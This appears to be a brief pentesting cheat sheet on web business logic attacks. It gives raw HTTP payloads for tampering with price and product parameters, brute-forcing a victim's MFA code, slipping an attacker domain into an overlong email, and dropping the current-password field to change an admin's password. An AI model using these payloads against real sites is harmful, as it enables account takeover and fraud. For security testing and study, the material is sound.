 ```yaml
---
title: Business Logic Attack
desc: Business Logic is the part of the program that encodes the real-world business rules that determine how data can be created, stored, and changed. 
tags: [Burp, Business, Logic, Web]
alts: []
render_with_liquid: false
---
```


## Change POST Params to Unexpected Values

```sh
productId=-1
productId=a
productId=1&price=-1000
```

<br />

## Exploit Broken Two-Factor

1. **Brute force a MFA Code**

    ```html
    POST /login HTTP/1.1
    Cookie: verify=victim
    ...

    <!-- Brute force digits code -->
    mfa-code=1111
    ```

<br />

## Loop Back with 2,147,483,647

Coming soon.

<br />

## Register with Too Long-Length Email Address

```html
POST /register HTTP/1.1
...

username=attacker&password=pass1&email=aaaaaaaaaaaaa...aa@vulnerable.com.attacker.com
```

<br />

## Remove the Specific POST Params

```html
POST /change-password HTTP/1.1
...

<!-- Remove 'current-password' parameter -->
username=admin&new-password-1=newpass&new-password-2=newpass
```